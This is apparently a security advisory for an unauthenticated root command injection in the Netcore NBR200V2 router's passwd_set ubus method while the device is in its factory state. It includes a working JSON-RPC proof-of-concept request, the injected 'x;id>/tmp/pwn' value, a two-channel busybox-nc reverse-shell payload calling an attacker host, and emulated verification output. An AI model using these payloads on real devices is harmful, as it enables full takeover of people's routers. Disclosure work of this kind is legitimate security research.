

# Netcore NBR200V2 Router

- Vendor: Netcore (磊科)
- Product: Netcore NBR200V2
- Firmware Version: V1.3.241127.071246 (LEDE 17.01, mipsel / MT7621)
- Vulnerability Type: Unauthenticated Command Injection (CWE-78) — pre-initialization window

## Overview

An unauthenticated command injection vulnerability was identified in the Netcore NBR200V2 router. While the device is in its **factory / pre-initialization state** (before the first-boot setup wizard completes, or after a factory reset), the permissive `unauthenticated` rpcd ACL grants access to the `routerd.passwd_set` ubus method without any credentials. The `pwd` parameter of that method is injected into a shell command executed with root privileges.

The issue can be triggered via the ubus JSON-RPC endpoint (enabled by default via `/etc/uci-defaults/00_uhttpd_ubus`):

`POST /ubus HTTP/1.1` — method `call` on object `routerd`, method `passwd_set`

No session token is required in the pre-init state (`"initialized":0`, queryable unauthenticated via `routerd.app_info`). Once the administrator completes initialization, `/usr/share/rpcd/acl.d/unauthenticated.json` is replaced by the restricted `unauthenticated.json.initialized`, which no longer exposes `passwd_set` — so the exploitation window is the factory/first-boot/after-reset state.

## Vulnerability Details

The vulnerability resides in the `passwd_set` handler (function at **0x4162d0**, MIPS16) of the `/usr/bin/routerd` ubus service (registered as ubus object `routerd`, running as root). The user-controlled `pwd` parameter is passed without sanitization into a `snprintf`-built command template that is then executed via `system()`:



```
snprintf(buf, ..., "uci set auto_ac.auto_ac.passwd=%s;uci commit auto_ac", pwd);
system(buf);
```

The actual command executed on the device (captured with `strace -f -e trace=execve` during testing) is:

```
sh -c "uci set auto_ac.auto_ac.passwd=x;id>/tmp/pwn;uci commit auto_ac"
```

for a `pwd` value of `x;id>/tmp/pwn`. Since the value is embedded unquoted in the template, `;` (or `$()`, backticks) breaks out and injects an arbitrary command. Note the payload must **not** end with `;` — the template already appends `;uci commit auto_ac`, and a resulting `;;` would be a shell syntax error that aborts the whole `sh -c` string before anything executes.

The same handler also executes `sh -c "passwd root"` (among other commands), confirming that `passwd_set` is reached in full without any session validation in the pre-init ACL window.

Pre-init unauthenticated ACL excerpt (`/usr/share/rpcd/acl.d/unauthenticated.json`):

```json
"routerd":["param_status", "get_wan_type", "wan_config_set", "wan_ipv6_config_set", "wan_ipv6_config_get", "passwd_set", ...]
```

## Proof of Concept

Send the unauthenticated ubus call (null session id `0000...`) with the injection in `pwd`:

```http
POST /ubus HTTP/1.1
Host: <target>
Content-Type: application/json
Content-Length: <len>
Connection: close

{"jsonrpc":"2.0","id":1,"method":"call","params":["00000000000000000000000000000000","routerd","passwd_set",{"user":"root","pwd":"x;id>/tmp/pwn","by":"web"}]}
```

Response:

```json
{"jsonrpc":"2.0","id":1,"result":[0]}
```

`/tmp/pwn` on the device then contains `uid=0(root) gid=0(root) groups=0(root)`.

A reverse shell can be obtained with the following `pwd` payload (the firmware busybox `nc` only supports `nc IP PORT` — no `-e` — so a two-channel scheme is used: channel 1 attacker→target commands, channel 2 target→attacker output; `tail -f /dev/null` keeps the first `nc` stdin open; JSON body imposes no character restrictions on the payload):

```json
{"user":"root","pwd":"x;tail -f /dev/null|nc <LHOST> <LPORT1>|/bin/sh|nc <LHOST> <LPORT2>","by":"web"}
```

A ready-to-use exploit (`exp_netcore_nbr200_passwd_set_rce.py`) implementing this two-channel interactive reverse shell is provided alongside this report.

## Impact

An unauthenticated remote attacker on the network can execute arbitrary commands as **root** on any NBR200V2 that is in the factory / pre-initialization / post-factory-reset state, resulting in full device compromise before the owner even completes setup.

## Reproduction Result

The vulnerability was dynamically verified against the firmware emulated with qemu-mipsel + chroot (stock uhttpd with the `/ubus` plugin and rpcd running, device in pre-init state — `routerd.app_info` reports `"initialized":0`):

```
$ curl -X POST http://<target>:8080/ubus -d '{"jsonrpc":"2.0","id":1,"method":"call","params":["00000000000000000000000000000000","routerd","passwd_set",{"user":"root","pwd":"x;id>/tmp/pwn","by":"web"}]}'
{"jsonrpc":"2.0","id":1,"result":[0]}
$ cat tmp/pwn
uid=0(root) gid=0(root) groups=0(root)
```

An interactive root reverse shell from the emulated firmware back to the attacker host (two-channel busybox-nc scheme) was also confirmed:

```
uid=0(root) gid=0(root) groups=0(root)
SHELL_OK
/
$ uname -m
mips
```
